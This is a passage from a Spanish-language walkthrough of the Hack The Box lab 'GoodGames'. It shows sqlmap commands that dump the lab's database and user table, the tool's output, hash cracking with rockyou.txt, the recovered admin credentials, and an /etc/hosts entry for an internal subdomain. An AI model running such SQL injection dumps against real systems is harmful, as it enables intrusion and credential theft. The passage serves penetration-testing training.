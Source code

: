 #### Procedemos a investigar qué tablas tiene la base de datos "main":

```bash
sqlmap -r req.txt --batch --dbs -D main --dump
```

#### Tablas:

- blog
- blog_comments
- user

```
[16:16:10] [INFO] fetching tables for database: 'main'
[16:16:10] [INFO] fetching number of tables for database 'main'
[16:16:10] [INFO] resumed: 3
[16:16:10] [INFO] resumed: blog
[16:16:10] [INFO] resumed: blog_comments
[16:16:10] [INFO] resumed: user
```

#### Ahora solo queda terminar extraer la información de la tabla "user" de la base de datos "main".

```bash
sqlmap -r req.txt -D main -T user --dump --batch
```

#### Al intentar crackear los hashes con el diccionario de SQLmap no logramos obtener la contraseña, por lo que quitamos el parámetro "--batch" y le especificamos que vamos a utilizar nuestro diccionario "rockyou.txt".

### Iniciamos sesión con las siguientes credenciales obtenidas con SQLmap:

```yaml
- email: admin@goodgames.htb
- password: superadministrator
```

#### Una vez en el directorio goodgames.htb/profile vemos en la parte superior un botón que nos lleva a los ajustes aparentemente en la siguiente URL: 

```
http://internal-administration.goodgames.htb/
```

*Para poder acceder a ese subdominio, lo agregamos al archivo /etc/hosts*

```
----------
/etc/hosts
----------
10.10.11.130    goodgames.htb internal-administration.goodgames.htb
```
